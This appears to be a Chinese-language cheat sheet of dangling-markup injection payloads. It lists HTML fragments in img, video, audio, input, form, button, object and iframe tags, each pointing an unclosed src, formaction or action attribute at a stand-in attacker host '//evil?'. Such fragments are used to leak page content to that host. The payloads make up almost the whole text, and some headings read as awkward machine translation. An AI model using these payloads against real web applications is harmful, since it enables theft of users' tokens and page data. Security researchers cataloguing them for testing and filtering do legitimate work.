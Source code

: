 #### **Img 通过 src 属性传递标记**

```
<img src="//evil? <image src="//evil?
```

#### **使用轨道元素的视频**

```
<video><track default src="//evil?
```

#### **使用源元素和 src 属性的视频**

```
<video><source src="//evil?
```

#### **使用源元素和 src 属性的音频**

```
<audio><source src="//evil?
```

#### **输入 src**

```
<input type=image src="//evil?
```

#### **按钮使用形式动作**

```
<form><button style="width:100%;height:100%" type=submit formaction="//evil?
```

#### **使用格式动作输入**

```
<form><input type=submit value="XSS" style="width:100%;height:100%" type=submit formaction="//evil?
```

#### **表单使用动作**

```
<button form=x style="width:100%;height:100%;"><form id=x action="//evil?
```

#### **对象数据**

```
<object data="//evil?
```

#### **Iframe src**

```
<iframe src="//evil?
```
